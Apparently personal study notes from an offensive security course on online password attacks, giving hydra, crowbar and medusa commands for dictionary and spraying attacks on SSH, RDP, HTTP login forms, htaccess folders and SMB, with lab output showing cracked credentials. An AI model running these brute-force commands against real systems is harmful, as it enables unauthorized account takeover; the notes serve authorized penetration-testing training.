 
*****NOTE:** PW attacks against network services can be noisy, and in some cases, dangerous.  
- Logs & warnings, possibly lockout, etc.  

Depending on protocol & cracking tool, can increase login threads to boost speed.  
May not be possible due to protocol restrictions (ie: RDP & SMB)  
Auth negotiation for some protocols are more time-consuming (ie: RDP vs HTTP)  

Hidden art is choosing appropriate targets, user lists, & pw files before initiating the attack.
*ScatteredSecrets* keeps an eye on password leaks
Must match username & pw, AND honor the protocol involved in the auth process.


# SSH Attack

[hydra](Tools.md#Hydra)
```bash
hydra -l <user> -P /usr/share/wordlists/rockyou.txt -s <port> ssh://<IP>
```

The dictionary attack worked because the password was contained in the **rockyou.txt** wordlist and we knew the name of the user we wanted to attack
Could also use built-in accounts like *root* or *Administrator*

Can also use ***password spraying***
- Using 1 password on multiple user names
- Could reveal users that use the same password across multiple systems.
	- Use caution when leveraging broad-range attacks.


# RDP Attack

###### Example of password spray attack
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

###### Attack w/ [crowbar](Tools.md#Crowbar):  
```bash
crowbar -b rdp -s 192.168.180.10/32 -u admin -C pwlist -n 1  
2023-01-13 09:46:17 START  
2023-01-13 09:46:17 Crowbar v0.4.2  
2023-01-13 09:46:17 Trying 192.168.180.10:3389  
2023-01-13 09:46:22 RDP-SUCCESS : 192.168.180.10:3389 - admin:lab  
2023-01-13 09:46:22 STOP
```
	**-b** - Target service  
	**-s** - Target --- (Must include CIDR notation)  
	**-u** - Target user  
	**-C** - PW file to use  
	**-n** - Number of active threads.  

  
** RDP doesn't reliably handle multiple threads (hence **-n 1**)


# HTTP POST Attack

In most internal and external assessments, we will face a web service.
Depending on the service, we may not be able to interact with it until we log into it.
If this is our only vector and we're unable to use default credentials to log in, we should consider using a dictionary attack to gain access.

Most web services come with a default user account, such as _admin_.
Using this known username for our dictionary attack will dramatically increase our chances of success and reduce the expected duration of our attack.


###### Attacking an HTTP POST login form with Hydra is not as straightforward as attacking SSH or RDP.
We must first gather two different pieces of information.
- The first is the POST data itself, which contains the request body specifying the username and password.
- Second, we must capture a failed login attempt to help Hydra differentiate between a successful and a failed login.


##### Dictionary attack on *TinyFileManager* login
- After reading the application's documentation, we discover that TinyFileManager includes two default users: _admin_ and _user_.
- Default login fails, but can try a pw attack on the default users.

- Use Burp to intercept login attempt to grab POST data
![](html_post_hydra.png)
- After logging in with the wrong creds, grab the failed login message
![](html_post_failed_login_hydra.png)

- Attack with hydra
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.227.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

- http-post-form accepts three colon-delimited fields
	1. Indicates location of the login form (ex: /index.php)
	2. Specifies the request body used for providing a username and password to the login form
	3. Specifies the failed login identifier - aka *condition string*
		- Searched for within the response of the web application to determine if a login is successful or not.
		- To reduce false positives, we should always try to avoid keywords such as _password_ or _username_. To do so, we can shorten the condition string appropriately.


# Removed from course
  
Find arg reqs for http-form-post service:  
```bash
hydra http-form-post -U  
....  
Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]  
First is the page on the server to GET or POST to (URL).  
Second is the POST/GET variables (taken from either the browser, proxy, etc.  
 with url-encoded (resp. base64-encoded) usernames and passwords being replaced in the  
  "^USER^" (resp. "^USER64^") and "^PASS^" (resp. "^PASS64^") placeholders (FORM PARAMETERS)  
Third is the string that it checks for an *invalid* login (by default)  
  Invalid condition login check can be preceded by "F=", successful condition  
  login check must be preceded by "S=".  
  This is where most people get it wrong. You have to check the webapp what a  
  failed string looks like and put it in this parameter!  
...  
```


Discover IP address, URL of the web form, & inspect web form's code.  
  
**web form** - http://192.168.180.10/form/login.html -Discoverable w/ fuzzing
  
**source** -  
```html
<html>  
<title>  
Web Form Page  
</title>  
<body>  
This is a web form  
<form name="myForm" method="post" action="frontpage.php">  
<p>Login: <input type="text" name="user" /></p>  
<p>Password: <input type="password" name="pass" /></p>  
<p><input type="submit" name="Login" value="Login" /></p>  
</form>  
</body>  
</html>
```
	Indicates POST request is handled by _/form/frontpage.php_  
  
**url** - [http://192.168.180.10/form/frontpage.php](http://192.168.180.10/form/frontpage.php)  
  
**reqs** - user & pass  
	user=admin  
	pass=^PASS^ (acts as a placeholder for our wordlist file entries.  
  
**condition string** - Indicates when a login attempt is unsuccessful.  
	Attempt a few manual login attemps and use text returned from the web page:  
		INVALID LOGIN  

Giving us the completed code needed for **hydra**:  
```bash
hydra 192.168.180.10 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f  
...  
[DATA] attacking http-post-form://192.168.180.10:80/form /frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN  
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done  
[ATTEMPT] target 192.168.180.10 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)  
...  
[ATTEMPT] target 192.168.180.10 - login "admin" - pass "jessica" - 16 of 14344399 [child 15] (0/0)  
[80][http-post-form] host: 192.168.180.10   login: admin   password: crystal  
[STATUS] attack finished for 192.168.180.10 (valid pair found)  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-13 10:33:36  
```
	-l - Login name  
	-P - Password list file  
	-vV - Very verbose  
	-f - Exit once pair is found  
  
Can use **F=INVALID LOGIN** or **S=**\<successful login text\>


## HTTP htaccess Attack

Setup:  
	Apache webserver installed on Win client (through XAMPP)  
	Attempt to gain access to protected folder **/admin**  
	Use wordlist _/usr/share/wordlists/rockyou.txt.gz_  
	Needs to be unzipped:  
```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

```bash
medusa -h <vic_ip> -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```
.
	**-h** - Target hostname or IP  
	**-u** - Username to test  
	**-P** - File containing pws to test  
	**-M** - Name of module to execute (use **medusa** **-d** to show all available modules)  
	**-m** - Param to pass to the module  
  
  
\*\*Will output all results to screen.  
Might want to add:  
```bash
 | grep -i success
```


Ex of attacking SMB on Win client:  
```bash
cat pwlist  
freedom  
lab  
  
medusa -h 192.168.180.10 -u admin -P pwlist -M smbnt -f  
...  
ACCOUNT FOUND: [smbnt] Host: 192.168.180.10 User: admin Password: lab [SUCCESS (ADMIN$ - Access Allowed)]
```
